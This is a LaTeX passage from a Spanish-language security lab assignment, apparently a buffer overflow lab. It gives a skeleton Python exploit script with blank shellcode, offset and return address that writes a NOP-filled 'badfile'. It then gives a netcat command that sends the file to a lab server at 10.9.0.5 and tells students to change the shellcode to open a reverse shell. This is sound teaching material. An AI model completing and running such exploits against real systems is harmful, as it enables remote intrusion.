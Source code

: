 \newcommand{\needtochange}{\ding{73} Necesita completarse \ding{73}}


\begin{lstlisting}[language=python, caption={The skeleton exploit code (\texttt{exploit.py})}]
#!/usr/bin/python3
import sys

# You can copy and paste the shellcode from Task 1
shellcode = (
  ""                     # (*@\needtochange@*)
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start =  0               # (*@\needtochange@*)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and save it somewhere in the payload
ret    = 0xAABBCCDD      # (*@\needtochange@*)
offset = 0               # (*@\needtochange@*)

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
\end{lstlisting}

Al terminar de completar el programa anterior, debe correrlo. Esto generará el contenido para el archivo \texttt{badfile}. Una vez generado debe ser enviado al servidor vulnerable. Si el exploit es implementado de manera correcta, el código del shellcode será ejecutado. 
Si el comando usado genera algún output este será mostrado en dentro de los mensajes del contenedor. Por favor incluya las pruebas que muestren que su servidor vulnerable ha sido capaz de correr los siguientes comandos.

\begin{lstlisting}
$./exploit.py   // create the badfile
$ cat badfile | nc 10.9.0.5 9090
\end{lstlisting}
 

\paragraph{Shell Reversa.}
Dado que estamos haciendo un ataque a un servidor remoto desde nuestra máquina local, no nos servirá de mucho correr \texttt{/bin/sh} en el servidor vulnerable, ya que será ejecutado de forma local y no podremos tener el control sobre esta shell desde nuestro lado. Una de las técnicas más comúnes para lograr control sobre esta shell de forma remota es la Shell Reversa. En la Sección \ref{sec:guildelines} se explica como correr una shell reversa.
Ud. deberá de modificar la cadena de comandos en el shellcode, para poder obtener una shell reversa en el servidor vulnerable.
Por favor incluya las explicaciones pertinentes junto con los screenshots de este procedimiento en el informe del laboratorio.


